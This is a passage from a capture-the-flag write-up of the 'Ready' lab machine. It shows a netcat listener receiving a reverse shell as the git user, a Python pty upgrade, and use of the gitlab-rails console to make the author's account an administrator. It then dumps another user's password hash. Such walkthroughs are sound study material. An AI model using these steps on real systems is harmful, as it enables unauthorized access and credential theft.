 And on my `nc` tab, I see the connection, but no output. I run some simple commands and see if python is installed on the system. Then I create a better looking shell.

```bash
$ nc -lvnp 9001                                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.220] 42046
whoami
git
which python
which python3
/opt/gitlab/embedded/bin/python3
/opt/gitlab/embedded/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ 
```

I tried make the shell more stable by backgrounding the session, running `stty raw -echo` and returning to the process, but my entire bash screen would freeze so I abandoned trying to get it to work. So I guess I won't have tab completion. That's okay.

---

## **User**

Initally I believed this was going to be similar to **Laboratory**, so I used what I had learned and made my user an admin. Using `gitlab-rails console`:

```bash
gitlab-rails console
-------------------------------------------------------------------------------------
 GitLab:       11.4.7 (98f8423)
 GitLab Shell: 8.3.3
 postgresql:   9.6.8
-------------------------------------------------------------------------------------
Loading production environment (Rails 4.2.10)
irb(main):001:0> user = User.find_by(username: 'y00ser')
user = User.find_by(username: 'y00ser')
=> #<User id:7 @y00ser>
irb(main):002:0> user.admin = true
user.admin = true
=> true
irb(main):003:0> user.save!
user.save!
=> true
```

Also while I'm here, I'd like to check out the user `dude` who I saw in the `/etc/passwd` file. Listing out his attributes, I find a password hash:

```bash
irb(main):006:0> u = User.find(2)
u = User.find(2)
=> #<User id:2 @dude>
irb(main):007:0> pp u.attributes
pp u.attributes
{"id"=>2,
 "email"=>"dude@ready.com",
 "encrypted_password"=>
  "$2a$10$NOMTXhO31vqykicMa6zj3O.F5PIyI9q/S4c.v22eMSfXNDdtpI2Mm",
```
